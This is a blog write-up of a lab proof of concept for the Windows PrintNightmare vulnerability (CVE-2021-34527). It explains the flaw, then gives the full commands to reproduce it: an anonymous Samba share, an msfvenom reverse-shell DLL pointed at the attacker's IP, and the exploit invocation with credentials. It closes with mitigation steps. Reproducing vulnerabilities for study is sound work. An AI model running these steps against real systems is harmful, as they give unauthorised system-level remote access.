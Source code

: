 ```yaml
---
title: PrintNightmare PoC - (CVE-2021-34527)
author: vinay
date: 2021-07-05
categories: [PoC]
tags: [Windows, PoC]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/CVE-2021-34527/poster.png
  #lqip: #data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Poster
---
```


This is a short take relating to the recent spooler bug that was discovered in the windows environment, marked by CVE-2021-34527. This flaw is proven to be exploited to achieve remote code execution on windows environments that has not disabled this service and is kept up and running.

## About CVE-2021-34527

[CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) was discovered by [researcher](https://twitter.com/edwardzpeng?lang=en), this flaw was initially classified as a Low severity vulnerability which can only be exploited for Privilege Escalation. But on June 21, 2021 the severity was changed to Critical as it was discovered that this bug allows authenticated remote code execution.

By taking advantage of this flaw an attacker could potentially get System level Administrative access on the Domain Controller in an Active Directory environment which can lead to the take over of the entire network/organisation. Various versions affected are Windows Server (2004, 2008, 2008 R2, 2012, 2012 R2, 2016, 2019, 20H2) and Windows (7, 8.1, RT 8.1, 10).

Windows Print Spooler service is by default enabled with all windows versions and is used to schedule printing jobs, find the printers in the network and so on. It's an old windows component (20+ years) and researchers find bugs in it occasionally. Ten years ago the notorious stuxnet worm that made damages to the nuclear plant in Iran was due to exploiting a similar bug which was embedded in the Windows Spooler service.

Microsoft Windows Print Spooler fails to restrict access to [RpcAddPrinterDriverEx()](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/b96cc497-59e5-4510-ab04-5484993b259b) function, in windows 10 this function can be seen in the snap-in module called printmanagement.msc. The module can be reached via the "Printers and Scanners" available in the settings. In this module by default it allows the operation of management of Print Server which means that a new print server can be added or modified by the current user(Low privileged) in the system.

![image-20210705112432286](/assets/img/CVE-2021-34527/image-20210705112432286.png)

## PoC

This is a replication of the PoC from [Cube0x0](https://github.com/cube0x0/CVE-2021-1675). Credit to [Jaacostan](https://www.jaacostan.com/2021/07/printnightmare-cve-2021-1675-poc.html) for his article which I referred to while creating this PoC of mine. This Proof of Concept demonstration will be confined to Windows 10 environment and the attacking system(Kali Linux). This version of Windows 10 doesn't have the latest patch installed and is running as a Virtual Machine.

Before starting of make sure that Windows Firewall and Defender are disabled. This is because in the later steps we'll be using a generic payload which doesn't have any encoding or defence evasion techniques implemented in it, when this is the case the Windows Defender will detect the payload and flag it as malicious when it's trying to retrieve and execute it from the hosted path in the attackers system.

![image-20210704214647576](/assets/img/CVE-2021-34527/image-20210704214647576.png)

![image-20210704214732860](/assets/img/CVE-2021-34527/image-20210704214732860.png)

Made a note of the Local address of Win10.

![image-20210704214754639](/assets/img/CVE-2021-34527/image-20210704214754639.png)

Set up a samba share with anonymous login enabled on the attacking machine. This is required for hosting the malicious .dll payload. Make changes to the smb.conf file located at /etc/samba/smb.conf. I'd advise to create a backup of this file before making any changes. Add the following lines to the end of the smb.conf configuration file.

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[public]
    comment = Samba
    path = /var/public
    guest ok = yes
    read only = no
    browsable = yes
    force user = root
```

![image-20210704214844003](/assets/img/CVE-2021-34527/image-20210704214844003.png)

Here the share folder is in /var/public. The payload must be hosted here. Folder can be named anything, make sure the name is changed in the configuration file.

Create a folder in /var/ named public if it's not already present

```
sudo mkdir /var/public
```

Provide the necessary permissions

```
sudo chmod 0777 /var/public
```

Restart the samba service for the changes to take effect

```
systemctl restart smbd
```

Install the version of impacket version which is mentinoned in Cube0x0 PoC by the following

```
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

Make a note of the attacker machine Local IP address.

![image-20210704215959333](/assets/img/CVE-2021-34527/image-20210704215959333.png)

Create the .dll payload using msfvenom.

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=172.16.104.1 LPORT=443 -f dll -o ./revshell.dll
```

![image-20210704215148765](/assets/img/CVE-2021-34527/image-20210704215148765.png)

Copy the revshell.dll to the samba share folder in /var/public.

Clone the exploit file locally from the repository https://github.com/cube0x0/CVE-2021-1675

Now listen on port 443 using Netcat and trigger the exploit.

./CVE-2021-1675.py [domain]/[username]:[password]@target '\\\Location of share'

```
./CVE-2021-1675.py Test:Testrainbow6@172.16.104.129 '\\172.16.104.1\\public\\revshell.dll'
```

![image-20210704215118484](/assets/img/CVE-2021-34527/image-20210704215118484.png)

![image-20210704215206211](/assets/img/CVE-2021-34527/image-20210704215206211.png)

## Mitigation

Microsoft recommends to apply security update patches released on 8th June, 2021, it is also recommended to disable the Print spooler service if not in use.

- Check if spooler service is running

```powershell
Get-Service -Name Spooler
```

- If the service is described as running, perfrom the following-

  a. **Disable the Print spooler service**

  ```powershell
  Stop-Service -Name Spooler -Force

  Set-Service -Name Spooler -StartupType Disabled
  ```

  Note: Disabling the service disables the ability to print locally and remotely

  b. **Disable inbound remote printing through Group Policy**

  Go to Computer Configuration / Administrative Templates / Printers

  Disable the “Allow Print Spooler to accept client connections:” policy to block remote attacks.

  You must restart the Print Spooler service for the group policy to take effect.

  Refer to the this Microsoft article for the workaround (https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-34527)

## Credits

- https://www.jaacostan.com/2021/07/printnightmare-cve-2021-1675-poc.html

- https://github.com/cube0x0/CVE-2021-1675

- https://github.com/JohnHammond/CVE-2021-34527

- https://www.blog.afine.academy/exploit-na-windowsa-10-czyli-eskalacja-przywilejow-made-in-poland/

- https://msandbu.org/printnightmare-cve-2021-1675/

